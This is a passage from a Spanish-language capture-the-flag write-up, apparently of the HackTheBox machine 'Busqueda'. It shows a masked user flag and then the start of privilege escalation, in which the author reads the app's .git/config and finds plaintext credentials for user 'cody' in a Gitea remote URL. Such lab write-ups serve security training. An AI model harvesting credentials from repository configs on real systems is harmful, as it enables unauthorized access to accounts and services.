 ```bash
svc@busqueda:~$ cat user.txt 
4a7480a3b6c75f12****************
```

## Escalación de privilegios

---

El código web se encuentra en `/var/www/app` y al listar los archivos y directorios, encontramos la carpeta `.git`, lo que sugiere que esta aplicación se administra a través de **Git**.

```bash
svc@busqueda:/var/www/app$ ls -al
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 .
drwxr-xr-x 4 root     root     4096 Apr  4 16:02 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1  2022 app.py
drwxr-xr-x 8 www-data www-data 4096 Jun 22 01:43 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 templates
```

Al acceder a la configuración de **Git**, encontramos las credenciales del usuario `cody`.

```bash
svc@busqueda:/var/www/app$ cd .git/
svc@busqueda:/var/www/app/.git$ ls -al
total 52
drwxr-xr-x 8 www-data www-data 4096 Jun 22 01:43 .
drwxr-xr-x 4 www-data www-data 4096 Apr  3 14:32 ..
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 branches
-rw-r--r-- 1 www-data www-data   15 Dec  1  2022 COMMIT_EDITMSG
-rw-r--r-- 1 www-data www-data  294 Dec  1  2022 config
-rw-r--r-- 1 www-data www-data   73 Dec  1  2022 description
-rw-r--r-- 1 www-data www-data   21 Dec  1  2022 HEAD
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 hooks
-rw-r--r-- 1 root     root      259 Apr  3 15:09 index
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 info
drwxr-xr-x 3 www-data www-data 4096 Dec  1  2022 logs
drwxr-xr-x 9 www-data www-data 4096 Dec  1  2022 objects
drwxr-xr-x 5 www-data www-data 4096 Dec  1  2022 refs
svc@busqueda:/var/www/app/.git$ cat config 
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
